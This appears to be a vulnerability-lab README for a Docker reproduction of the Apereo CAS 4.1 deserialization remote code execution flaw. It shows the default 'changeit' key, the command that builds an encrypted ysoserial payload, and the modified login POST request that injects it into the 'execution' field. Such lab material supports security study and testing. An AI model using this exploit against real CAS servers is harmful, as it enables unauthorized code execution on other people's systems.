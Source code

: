 # Apereo CAS 4.1 Deserialization RCE Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

Apereo CAS is a enterprise single sign-on system. There is an issue in CAS’s attempts to deserialize objects via the Apache Commons Collections library, which cased a RCE vulnerability.

Reference:

- https://apereo.github.io/2016/04/08/commonsvulndisc/

## Environment Setup

Execute following commands to start an Apereo CAS 4.1.5：

```
docker-compose up -d
```

After the Apereo CAS is started, visiting `http://your-ip:8080/cas/login` to see the login page.

## Exploit

The out-of-the-box default configuration of Apereo CAS before 4.1.7, is using a default secret key `changeit`:

```java
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;

    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }

    // ...
```

We can try to use [Apereo-CAS-Attack](https://github.com/vulhub/Apereo-CAS-Attack) to generate a encrypted [ysoserial](https://github.com/frohoff/ysoserial)'s serialized object:

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"
```

![](1.png)

Then, intercept and modify the http request from login action of `/cas/login`, put the payload into `execution`'s value:

```
POST /cas/login HTTP/1.1
Host: your-ip
Content-Length: 2287
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-ip:8080/cas/login
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: JSESSIONID=24FB4BAAE1A66E8B76D521EE366B3E12; _ga=GA1.1.1139210877.1586367734
Connection: close

username=test&password=test&lt=LT-2-gs2epe7hUYofoq0gI21Cf6WZqMiJyj-cas01.example.org&execution=[payload]&_eventId=submit&submit=LOGIN
```

![](2.png)

Congrats, `touch /tmp/success` has been successfully executed:

![](3.png)
